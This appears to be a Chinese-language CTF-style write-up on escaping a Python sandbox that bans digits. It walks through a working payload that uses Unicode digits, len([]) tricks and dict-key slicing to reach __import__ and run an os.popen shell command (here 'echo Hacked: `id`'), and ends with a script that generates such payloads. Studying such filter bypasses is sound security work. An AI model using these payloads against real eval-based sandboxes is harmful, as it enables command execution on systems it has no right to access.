

# 沙箱逃逸-解法四 payload 分析

## 前言

解法四主要针对数字被禁用的情况。

## Payload 分析

需要对解法三 的 payload 进行改造，使其不需要数字。

**解法三 payload：**

```python
eval(vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]))
```

### 切片中的数字如何绕过？

解法三的 payload 中切片的数字主要用到 0 和 2，可以通过以下手法绕过：

- `0` -> `len([])`
- `2` -> `len(list(dict(aa=()))[len([])])`

关键问题在于参数中的数字咋绕过？

### dict() 参数里的数字如何绕过？

答案是 Unicode！

可用的数字列表见：

https://www.fileformat.info/info/unicode/category/Nd/list.htm



所以，终极版的 payload 如下：

```python
vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X𝟣𝟫pbXBvcnRfXygnb𝟥MnKS𝟧wb𝟥BlbignZWNobyBIYWNrZWQ𝟨IGBpZGAnKS𝟧yZWFkKCkg=()))[len([])])
```

还是一步步拆解来看一看：

```python
dict(_a_aiamapaoarata_a_=()) # {'_a_aiamapaoarata_a_': ()}

list(dict(_a_aiamapaoarata_a_=())) # ['_a_aiamapaoarata_a_']

[len([])] # [0]

list(dict(_a_aiamapaoarata_a_=()))[len([])] # '_a_aiamapaoarata_a_'

len(list(dict(aa=()))[len([])]) # 2

[::len(list(dict(aa=()))[len([])])] # [::2]


list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])] # '__import__'


eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])]) # <built-in function __import__>

```

导入 binascii 模块和上述拆解分析相同，主要看看 Unicode 那部分：

```python
dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=()) # {'a_2_b1_1b_a_s_e_6_4': ()}


list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=()))[len([])] # 在 pycharm 运行，控制台莫名报错。结果是 'a_2_b1_1b_a_s_e_6_4'


list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=())) [len([]) ][::len(list(dict(aa=()))[len([])])] # 'a_2_b1_1b_a_s_e_6_4'[::2] = 'a2b_base64'


[list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=())) [len([]) ][::len(list(dict(aa=()))[len([])])]] # ['a2b_base64']


```

### 构造脚本

当然不可能手工替换解法三 payload 中的数字，附上作者脚本

```python
u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫' #这个是 unicode 的数字，不是普通的数字！

CMD = "eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=()))[len([])]))"

CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)}) # 把 payload 中的普通数字全部换成unicode数字
```

